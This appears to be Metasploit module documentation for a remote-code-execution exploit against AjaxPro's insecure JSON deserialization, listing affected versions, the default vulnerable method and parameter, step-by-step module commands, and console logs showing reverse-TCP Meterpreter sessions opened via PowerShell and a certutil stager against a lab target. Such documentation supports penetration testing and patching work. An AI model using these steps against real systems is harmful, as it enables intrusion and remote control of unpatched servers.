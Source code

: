 ## Vulnerable Application

### Description
This module leverages an insecure deserialization of data to get
remote code execution on the target OS in the context of the user
running the website which utilized AjaxPro.

To achieve code execution, the module will construct some JSON data
which will be sent to the target. This data will be deserialized by
the AjaxPro JsonDeserializer and will trigger the execution of the
payload.

All AjaxPro versions prior to 21.10.30.1 are vulnerable to this
issue, and a vulnerable method which can be used to trigger the
deserialization exists in the default AjaxPro namespace.

AjaxPro 21.10.30.1 removed the vulnerable method, but if a custom
method that accepts a parameter of type ObjectDataProvider exists,
the vulnerability can still be exploited.

This module has been tested successfully against version 7.7.31.1
and version 21.10.30.1 of AjaxPro on Windows Server.
### Setup

Ajax.NET Professional (AjaxPro) is a commercial library for ASP.NET
which provides AJAX functionality. It is available for download
from the official github repository [here](https://github.com/michaelschwarz/Ajax.NET-Professional/)

## Verification Steps

1. Follow the setup instructions in the official repository to reference
   a vulnerable version of AjaxPro library in a new ASP.NET project, and
   modify `web.config` to configure AjaxPro to be the default handler on
   specific paths (defaults to `/ajaxpro/*`).
2. If using version 21.10.30.1 of AjaxPro, a method with `AjaxMethodattribute`
   should be added. This method must accept a parameter of type that is assignable
   from `ObjectDataProvider` (e.g. `object`). The method can be empty.
3. Do: `use exploit/windows/http/ajaxpro_deserialization_rce`
4. Do: `set rhosts <ip>`
5. Do: `set rport <port>`
6. Do: `set lhost <ip>`
7. Do: `set target <target #>`
8. Do: `exploit`
9. You should get session.

## Targets

### 0 (Windows Command)

This executes a Windows command.

### 1 (Windows Dropper)

This uses a Windows dropper to execute code.

## Options

### TARGETURI

The base path to AjaxPro Handler, which is set to `/ajaxpro/` by default.

### Namespace

The namespace of vulnerable method, which is set to `AjaxPro.Services.ICartService,AjaxPro.2` by default.

### Method

The name of vulnerable method, which is set to `AddItem` by default.

### Parameter

The name of vulnerable parameter which, is set to `item` by default.

## Scenarios

### Windows Command

```
msf6 > use exploit/windows/http/ajaxpro_deserialization_rce
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set rhosts 127.0.0.2
rhosts => 127.0.0.2
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set rport 57750
rport => 57750
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set vhost localhost
vhost => localhost
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. And confirmed target method exists.
[*] Sending stage (175686 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:51844) at 2023-10-28 01:27:00 +0800
```

### Windows Dropper

```
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > use exploit/windows/http/ajaxpro_deserialization_rce
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set rhosts 127.0.0.2
rhosts => 127.0.0.2
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set rport 57750
rport => 57750
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set lhost 127.0.0.1
lhost => 127.0.0.1
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set vhost localhost
vhost => localhost
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > set cmdstager::flavor certutil
cmdstager::flavor => certutil
msf6 exploit(windows/http/ajaxpro_deserialization_rce) > exploit

[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. And confirmed target method exists.
[*] Command Stager progress -   2.05% done (2046/99626 bytes)
[*] Command Stager progress -   4.11% done (4092/99626 bytes)
[*] Command Stager progress -   6.16% done (6138/99626 bytes)
[*] Command Stager progress -   8.21% done (8184/99626 bytes)
[*] Command Stager progress -  10.27% done (10230/99626 bytes)
[*] Command Stager progress -  12.32% done (12276/99626 bytes)
[*] Command Stager progress -  14.38% done (14322/99626 bytes)
[*] Command Stager progress -  16.43% done (16368/99626 bytes)
[*] Command Stager progress -  18.48% done (18414/99626 bytes)
[*] Command Stager progress -  20.54% done (20460/99626 bytes)
[*] Command Stager progress -  22.59% done (22506/99626 bytes)
[*] Command Stager progress -  24.64% done (24552/99626 bytes)
[*] Command Stager progress -  26.70% done (26598/99626 bytes)
[*] Command Stager progress -  28.75% done (28644/99626 bytes)
[*] Command Stager progress -  30.81% done (30690/99626 bytes)
[*] Command Stager progress -  32.86% done (32736/99626 bytes)
[*] Command Stager progress -  34.91% done (34782/99626 bytes)
[*] Command Stager progress -  36.97% done (36828/99626 bytes)
[*] Command Stager progress -  39.02% done (38874/99626 bytes)
[*] Command Stager progress -  41.07% done (40920/99626 bytes)
[*] Command Stager progress -  43.13% done (42966/99626 bytes)
[*] Command Stager progress -  45.18% done (45012/99626 bytes)
[*] Command Stager progress -  47.23% done (47058/99626 bytes)
[*] Command Stager progress -  49.29% done (49104/99626 bytes)
[*] Command Stager progress -  51.34% done (51150/99626 bytes)
[*] Command Stager progress -  53.40% done (53196/99626 bytes)
[*] Command Stager progress -  55.45% done (55242/99626 bytes)
[*] Command Stager progress -  57.50% done (57288/99626 bytes)
[*] Command Stager progress -  59.56% done (59334/99626 bytes)
[*] Command Stager progress -  61.61% done (61380/99626 bytes)
[*] Command Stager progress -  63.66% done (63426/99626 bytes)
[*] Command Stager progress -  65.72% done (65472/99626 bytes)
[*] Command Stager progress -  67.77% done (67518/99626 bytes)
[*] Command Stager progress -  69.83% done (69564/99626 bytes)
[*] Command Stager progress -  71.88% done (71610/99626 bytes)
[*] Command Stager progress -  73.93% done (73656/99626 bytes)
[*] Command Stager progress -  75.99% done (75702/99626 bytes)
[*] Command Stager progress -  78.04% done (77748/99626 bytes)
[*] Command Stager progress -  80.09% done (79794/99626 bytes)
[*] Command Stager progress -  82.15% done (81840/99626 bytes)
[*] Command Stager progress -  84.20% done (83886/99626 bytes)
[*] Command Stager progress -  86.25% done (85932/99626 bytes)
[*] Command Stager progress -  88.31% done (87978/99626 bytes)
[*] Command Stager progress -  90.36% done (90024/99626 bytes)
[*] Command Stager progress -  92.42% done (92070/99626 bytes)
[*] Command Stager progress -  94.47% done (94116/99626 bytes)
[*] Command Stager progress -  96.52% done (96162/99626 bytes)
[*] Command Stager progress -  98.58% done (98208/99626 bytes)
[*] Sending stage (175686 bytes) to 127.0.0.1
[*] Command Stager progress - 100.00% done (99626/99626 bytes)
[*] Meterpreter session 3 opened (127.0.0.1:4444 -> 127.0.0.1:51919) at 2023-10-28 01:34:30 +0800

meterpreter >
```
